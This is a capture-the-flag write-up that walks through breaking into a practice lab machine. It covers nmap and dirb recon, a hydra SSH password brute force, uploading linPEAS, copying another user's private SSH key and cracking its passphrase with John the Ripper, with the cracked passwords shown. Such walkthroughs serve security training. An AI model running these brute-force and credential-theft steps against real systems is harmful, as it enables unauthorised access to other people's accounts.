 # Basic Pentest CTF

attack machine = 10.10.140.158

## Data Gathering

- Run a ping scan to insure machine is up
    `ping -c 3 10.10.140.158`

- Run nmap scan to discover services running
    `nmap -sC -sV -oN init_scan 10.10.140.158`

```console
└─$ nmap -sC -sV -oN init_scan 10.10.140.158
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-12 14:20 EDT
Nmap scan report for 10.10.140.158
Host is up (0.13s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http-proxy
| fingerprint-strings: 
|   Kerberos, TLSSessionReq: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 2243
|     Date: Wed, 12 Oct 2022 18:22:20 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
```

- Run dirbuster to get info on potential directories for website
    `dirb http://10.10.140.158/ /usr/share/wordlists/dirb/common.txt`

```console
---- Scanning URL: http://10.10.140.158/ ----
==> DIRECTORY: http://10.10.140.158 development/                                                                    
+ http://10.10.140.158/index.html (CODE:200 SIZE:158)                                                               
+ http://10.10.140.158/server-status (CODE:403|SIZE:301)                                                            
```

discovered conversations under the /development directory

```vim
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat to host that on this server too. Haven't made any real web apps yet, but I have tried that example you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

```vim
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials, and I was able to crack your hash really easily. You know our password policy, so please follow it? Change that password ASAP.

-K
```

- Run enum4linux to gather potential usernames that can help brute-force SMB.
    `enum4linux -a 10.10.140.158 | tee enum4linux.log`

based on infor gathered from the dev directory i found 2 usernames that could be useful _kay_ and _jan_.

- Run hydra to brute force SSH login using _jan_
    `hydra -Vf -l jan -P /usr/share/wordlists/rockyou.txt 10.10.140.158 ssh`

```console
[22][ssh] host: 10.10.140.158   login: jan   password: armando
```

- SSH into jan using login info
    `SSH jan@10.10.140.158`

- Do some enumeration to gather information

since we have ssh access we can do a secure copy (scp) of tools we could use such as linPEAS.

ATTACK MACHINE
_I downloaded the latest release of linpeas.sh into the directoy i was working in so i didn't need to provide a path. I copied the script to /dev/shm as its a means of passing data between programs_
`scp linpeas.sh jan@10.10.140.158:/dev/shm`

TARGET MACHINE
Once i know its properly copied over i insure the script is executable
    `chmod 777 linpeas.sh`

Then run the script
    `./linpeas.sh`

Going through the information, there is a possible private SSH key we can use for _kay_ which could give us access to there machine. pull the readable id_rsa key 
    
`cd /home/kay/.ssh`

open the file and copy it to a new file on your host machine. change permissions so only you can open it `chmod 600 kay_rsa_key`

Kay's SSH requires a passphrase which we don't have...
```console
└─$ ssh -i kay_rsa_key kay@10.10.140.158
Enter passphrase for key 'kay_rsa_key': 
```

We have to use john the ripper to brute-force our way in. first we need information related to the ssh key through john.
`ssh2john kay_rsa_key > kayforjohn.txt`

Then using that file we enter it into the main john the ripper with a wordlist.
`john kayforjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt`

```console
─$ john kayforjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt                                              1 ⚙
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_rsa_key)     
1g 0:00:00:00 DONE (2022-10-12 17:08) 25.00g/s 2068Kp/s 2068Kc/s 2068KC/s betzabeth..beba21
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
- SSH into kay using the passphrase _beeswax_
    `SSH -i kay_rsa_key kay@10.10.140.158`

- Read the _pass.bak_ file for the password
*heresareallystrongpasswordthatfollowsthepasswordpolicy$$*
